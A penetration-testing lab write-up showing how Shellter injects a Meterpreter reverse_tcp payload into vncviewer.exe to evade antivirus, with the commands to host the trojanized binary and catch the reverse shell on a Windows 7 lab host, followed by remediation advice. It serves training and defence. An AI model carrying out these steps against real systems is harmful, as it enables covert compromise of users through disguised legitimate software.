# AV Evasion with Shellter

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target:** WIN7-PC (10.10.10.7) — Windows 7 (6.1 Build 7601 SP1)<br>
**Attacker:** 10.10.10.10 (Kali)

## 1. Executive Summary

**Shellter** is a dynamic PE infector that injects a payload into a real Windows executable
so the result looks and runs like the original program while the shellcode executes in the
background — defeating signature-based AV. Here we inject a **Meterpreter reverse_tcp**
payload into `vncviewer.exe`, deliver it to the target, and catch the session.

## 2. Setup

Installing Shellter and the 32-bit Wine packages (Shellter runs 32-bit payloads).

```bash
apt install shellter
dpkg --add-architecture i386 && apt update
apt install wine32
```






## 3. Running Shellter

```bash
cd /usr/share/windows-resources/shellter
wine shellter.exe
```





Selecting the legitimate executable to infect (`vncviewer.exe`).

```
/usr/share/windows-binaries/vncviewer.exe
```



Choosing **Auto** mode and a **Listed Payload** (`meterpreter_reverse_tcp`, LHOST
`10.10.10.10`, LPORT `1234`); Shellter injects and verifies.

```
Injection: Verified!
```



## 4. Delivery & Handler

Hosting the infected binary over HTTP.

```bash
sudo python3 -m http.server 80
```



Setting up the matching handler.

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 1234
run
```



The target downloads the infected `vncviewer.exe`.



## 5. Execution & Session

Running the program works as normal while the payload runs in the background.




A Meterpreter session opens on WIN7-PC.

```
sysinfo    # WIN7-PC — Windows 7
getuid     # Win7-PC\Win7
```



## 6. Remediation Recommendations

1. **Don't rely on signature AV alone** — use behaviour-based EDR that detects injected
   threads/suspicious child processes.
2. **Application allow-listing** (WDAC/AppLocker) with trusted publishers so modified
   binaries fail code-integrity checks.
3. **Block untrusted downloads/execution** (SmartScreen, MOTW, egress filtering).
4. **User awareness** — infected copies of legitimate tools are a common delivery vector.
